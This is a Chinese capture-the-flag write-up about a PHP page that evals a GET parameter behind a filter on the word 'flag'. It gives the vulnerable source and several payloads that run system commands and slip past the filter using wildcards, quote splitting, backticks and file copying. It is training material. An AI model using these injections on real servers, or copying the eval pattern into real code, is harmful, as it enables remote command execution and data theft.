 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:26:48
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

分析源码

get方式提交参数c

过滤/flag

eval命令执行

 

```
?c=system("ls");
```

![image-20250309094306857](./assets/image-20250309094306857.png)



## 第一种

利用*代替字符串过滤

```
?c=system("cat fl*g.php");
```

![image-20250309094314964](./assets/image-20250309094314964.png)



## 第二种

利用 ' '分割

```
?c=system("cat fl''ag.php");
```



## 第三种

使用反斜杠 ` 

```
?c=system("cat `ls`");
```

![image-20250309094507590](./assets/image-20250309094507590.png)



## 第四种

用？代替flag和php

```
?c=system(“cat ????.???”);
```

![image-20250401223450326](./assets/image-20250401223450326.png)



# 第五种

利用cp复制文件

```
?c=system("cp fla?.php 4.txt");
```

![image-20250402183819655](./assets/image-20250402183819655.png)

接着访问4.txt

![image-20250402183810250](./assets/image-20250402183810250.png)